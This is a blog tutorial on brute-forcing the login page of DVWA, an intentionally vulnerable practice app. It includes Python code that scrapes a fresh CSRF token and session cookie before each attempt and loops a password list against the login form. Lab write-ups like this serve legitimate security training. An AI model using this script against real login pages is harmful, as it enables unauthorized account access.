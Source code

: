 ```yaml
---
title: Brute forcing DVWA's initial login page 
slug: brute-forcing-dvwas-initial-login-page 
date: 2022-09-17 
updated_at: 2022-09-17 
description: "Although it is quite easy to see write ups for the DVWA's brute force login challenge. Hacking it's actual login page may bring up some challenges to newcomers. Let's understand why and how to circumvent it"
---
```


Although it is quite easy to see write ups for the DVWA's brute force login challenge. Hacking it's actual login page may bring up some challenges to newcomers. Let's understand why and how to circumvent it!

[Damn Vulnerable Web App, or also known as DVWA](https://github.com/digininja/DVWA), is a PHP/MySQL web application that is purposefully  vulnerable, as the name suggests, to be hacked, tested and serve as a learning playground for people that want to practice their security skills in a legal environment.

When we set up our DVWA server (in this case, I preferred using a docker image to host it for me), and do a initial reset database it will set up and show the default credentials for us: username `admin` and password `password`, pretty common default credentials for a webserver, right? However, if we could not hack, automate and find our way the system, how fun would it really be?

So, this is the first thing we see when we access our DVWA page:
![DVWA Login Page](/blog/assets/DVWA-Login-Page.png)

First things first, let's try to grasp this page and see if we can grab any hints that we could use, for it let's check the network tab as well. You can use another proxy to intercept requests as well, if you'd prefer.

![Highlighted requests](/blog/assets/highlighted-requests.png)

As you can see, I've highlighted somethings in the image above. The request high in blue is the POST request we just made trying to log in. After that, ther server processes the request and redirect us to `login.php` as we can see in the red highlight, with a message of "Login failed", as shown in the yellow highlight in the left. Let's copy the post request as a [cURL](https://curl.se/) command and see how it is formed. 

![Copy request as cURL command](/blog/assets/copy-as-curl.png)

Although cURL commands are pretty useful, I don't find them really easy to read, so let's transform it in a Python request and see how it looks. For that we can use the [cURL converter website](https://curlconverter.com/python/) to do the job for us and it's output will look something like this:

```python
import requests

cookies = {
    'PHPSESSID': 'fmpdptokjk1ogvashj9j5usdn4',
    'security': 'low',
}

headers = {
	...
}

data = {
    'username': 'teste',
    'password': '123',
    'Login': 'Login',
    'user_token': 'e877712995a1d2bbae4c622fff7f9b9a',
}

response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
```

Here we can see a few interesting things in the request we made:  a cookie called `PHPSESSID ` and a parameter called `user_token`, if we try to refresh the page and login again we'll see that both of them will have new values. `PHPSESSID` is a way of PHP of setting a session cookie and `user_token` looks like a [CSRF Token](https://portswigger.net/web-security/csrf/tokens), a unique, unpredictable value that the server uses to validate the given request and properly process it if valid. Let's see what happens if we make a few requests without changing its value:

```python
for _ in range(1, 3):
    response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
    print(response.content)
    print("==============")
```

After the first request, you'll probably see we have a `CSRF token is incorrect` message within its body content, so this confirms our theory! So what can we do to get around it and be able to automatize our requests? 

First of all, we've already seen that every time we load the page a new token is generated for us, we can use that for getting a new token before every new request we make, so let's try making a `GET` request and see what we get.

```python
response = requests.get('http://localhost/login.php')

print(response.content.decode('UTF-8'))
```

And we'll get a tag like this within our response:

```html
<input type=\'hidden\' name=\'user_token\' value=\'faaf19846a466a9f328f2a43a06cfdb6\' />
```

So we can probably extract that using a [regex](https://en.wikipedia.org/wiki/Regular_expression), let's try that

```python
def get_user_token(body):
    return re.search("user_token\\\' value=\\\'(.+)\\\'", body).group(1)
```

Let's also get the `PHPSESSID` cookie since we're already getting data from the new request. It is in the Headers, however, we can do it like this

```python
def get_phpsessid(headers):
    return headers['Set-Cookie'].split(';')[0].split('=')[1]
```

And wrap up everything into a single function

```python
def set_request_tokens():
    response = requests.get('http://localhost/login.php')
    cookies['PHPSESSID'] = get_phpsessid(headers=response.headers)
    data['user_token'] = get_user_token(body=response.content.decode('UTF-8'))
```

Let's set a small wordlist of passwords so we can test if we find a successful login.

```python
PASSWORDS = [
    "teste",
    "admin",
    "password",
    "tentativa",
    "aloha",
    "ihuuuu"
    "qwerty"
    "qw12er34ty56"
]
```

so, just to finish our little script, let's build a last function to do the dirty work for us.

```python
def brute_force():
    for i in PASSWORDS:
        set_request_tokens()
        data['password'] = i
        response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
        
        if 'Login failed' in response.content.decode('UTF-8'):
            continue

        print("=================")
        print("Successful Login!")
        print("Credential Found:")
        print(f"- Username: {data['username']}")
        print(f"- Password: {data['password']}")
        print("=================")
```

This function iterates over the PASSWORDS list we've defined earlier, sets the tokens we need for every new request and, finally, do the request. After that we check if there's a `Login failed` message within the reponse content to see if we succeeded or not and then print out the credentials found. The final output will look like this:

![Script output Result](/blog/assets/script-output.png)

## Conclusion

And that will be it! Although it's a very simple hacking problem, some people might run into trouble dealing with those tokens and not understand what's going on. Especially when we try to use tools as Burp Suite or [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) for brute forcing it, since the results may not be consistent if not set up correctly. You can find the whole script in my [Github](https://github.com/davidpalves/writeups/blob/main/dvwa/dvwa-login.py).

Feel free to comment below any questions, suggestions or relevant points you might have!
